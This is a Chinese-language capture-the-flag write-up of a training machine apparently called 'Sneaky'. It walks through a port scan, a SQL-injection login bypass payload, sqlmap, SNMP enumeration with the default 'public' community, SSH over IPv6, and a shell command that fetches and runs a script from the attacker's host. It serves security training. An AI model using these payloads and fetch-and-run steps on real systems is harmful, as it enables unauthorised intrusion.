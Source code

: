 ```yaml
---
title: Sneaky(snmp默认口令泄露敏感信息)
categories:
- training
tags:
- training
---
```


## enum

```
Discovered open port 161/udp on 10.10.10.20                                    
Discovered open port 80/tcp on 10.10.10.20 

80/tcp  open   http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Under Development!
161/tcp closed snmp
```
## web

单引号报错，双单引号页面正常，说明有sql注入漏洞。
![28](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/10-26-07/28.PNG)

![29](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/10-26-07/29.PNG)

![30](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/10-26-07/30.PNG)

用户名admin，密码123'or'1'='1   登入页面，获得一个ssh密钥。

保存密钥为id.rsa文件。
```
chmod 400 id.rsa
ssh -i id.rsa admin@10.10.10.20
ssh -i id.rsa thrasivoulos@10.10.10.20
猜测用户名失败，Connection refused
```
### sql注入提取有效用户名

sqlmap -r sql

![31](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/10-26-07/31.PNG)

## snmp

[snmp&snmpwalk](https://whale3070.github.io/tools/2019/03/11/x/)
```
snmpwalk -c public -v 1 10.10.10.20
snmpwalk -Os -c public -v 1 10.10.10.20 -t 30
将延时设置为30秒

use scanner/snmp/snmp_enum
set RHOSTS 10.10.10.20

python enyx.py  2c  public  10.10.10.20

ssh -i id.rsa -6 thrasivoulos@dead:beef:0000:0000:0250:56ff:feb9:d82f
```
![32](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/10-26-07/32.PNG)

【本地执行】python -m SimpleHTTPServer 888

【获得的shell执行】cd /tmp;wget http://10.10.14.18:888/linux-exploit-suggester.sh
chmod a+x linux*;./linux* > out.txt

找到了一个suid程序，可以进行缓冲区溢出来获得root权限。这一部分不是很熟悉，等以后有时间再深入学习下吧。

## 总结
本次实验演示了snmp public/private默认口令泄露主机敏感信息的情况。

ssh禁止了ipv4连接，Connection refused，但是还有ipv6地址。这个思路一般人想不到吧。。。
第一次使用了IPv6地址进行ssh登陆。每一次主机重启，IPv6地址都会改变。

msf的snmp_enum模块可以枚举默认密码的设备的详细信息，但是对于延时很严格，网络不好很可能得不到查询结果。


